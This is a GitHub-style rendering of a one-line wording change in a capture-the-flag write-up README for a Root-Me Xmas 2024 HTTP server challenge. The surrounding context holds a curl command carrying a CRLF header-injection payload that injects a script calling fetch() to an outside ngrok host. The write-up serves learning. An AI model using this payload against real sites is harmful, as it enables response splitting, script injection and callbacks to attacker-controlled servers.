

Before and after one commit to Ax8457/WriteUPs, a Markdown page: Xmas_RootMe_2024/CutsomHttpServer/README.md, the part around the change. Drawn GitHub-style; grey boxes are pictures that could not be loaded.

`````diff
--- a/Xmas_RootMe_2024/CutsomHttpServer/README.md
+++ b/Xmas_RootMe_2024/CutsomHttpServer/README.md
@@ -55,7 +55,7 @@ router.get('/api/redirect', (req, res) => {
 ````bash
 curl -G "http://dyn-01.xmas.root-me.org:24694/api/report" --data-urlencode "url=http://127.0.0.1:3000/api/redirect?url=%0D%0AContent-Type%3A%20text%2Fhtml%20%0A%0A%3Chtml%3E%3Cscript%3Efetch%28%27http%3A%2F%2F7.tcp.eu.ngrok.io%3A18440%2F%27%29%3C%2Fscript%3E%3C%2Fhtml%3E%0A%0A"
 ````
-Actually, \r\n chars triggered a 302 page meaning that page had been found on the server and well overwritten. At this point it was satisfying insofar as the payload applied to the target domain:
+Actually, \r\n chars triggered a 302 page meaning that page had been found on the server and well overwritten. At this point it was satisfying insofar as the payload was ran on the target domain:
 
 <p align="center"><img src="Screenshots/S4.png" alt="Desc"></p>
 
`````
